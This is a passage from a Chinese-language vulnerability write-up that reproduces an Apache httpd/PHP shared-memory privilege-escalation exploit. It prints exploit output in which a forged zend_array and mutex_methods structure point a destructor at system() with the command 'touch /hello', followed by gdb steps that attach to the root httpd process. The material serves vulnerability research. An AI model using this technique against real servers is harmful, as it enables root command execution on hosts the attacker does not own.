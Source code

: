 ```
evil zend_array start addr:0x7f1f62a321e0
evil zend_array end addr:0x7f1f62a32218
evil mutex_methods start addr:0x7f1f62a32218
evil mutex_methods end addr:0x7f1f62a32268
evil string: touch /hello len:16
evil string start addr:0x7f1f62a32268
evil string end addr:0x7f1f62a32278
zend_object_std_dtor function addr:0x7f1f5c03d300
system function addr:0x7f1f617a94c0
child_init(0x7f1f62a32248) => zend_object_std_dtor
pDestructor(0x7f1f62a32210) => system
meth(0x7f1f62a321e8) => mutex_mthods_struct
mutex(0x7f1f62a321b8) => zend_array struct
properties(0x7f1f62a321d8) => zend_array struct
ar_data(0x7f1f62a321f0) => evil string

Spraying the shared memory start `evil_shm_start:0x7f1f62a32278

evil_shm_end:0x7f1f62a4a000

evil_shm_size:17d88

evil_shm_mid_addr:0x7f1f62a3e140

bucket:fe3ec349aa5` 
```

此时，共享内存中，已经被我们的恶意数据给填充。

##### 为通过gdb模拟修改bucket指向我们的恶意结构做准备

```
[root@bogon john]# ps -aux | grep httpd
root      19895  0.0  0.2 285296 10652 ?        Ss   14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19896  0.0  0.2 287512  9348 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19897  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19898  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19899  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19900  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
root      20112  0.0  0.0 112708   980 pts/2    R+   14:30   0:00 grep --color=auto httpd
[root@bogon john]# gdb attach 19895
(gdb) break child_main
Breakpoint 1 at 0x46c000: file prefork.c, line 380.
(gdb) set follow-fork-mode child
(gdb) c 
```
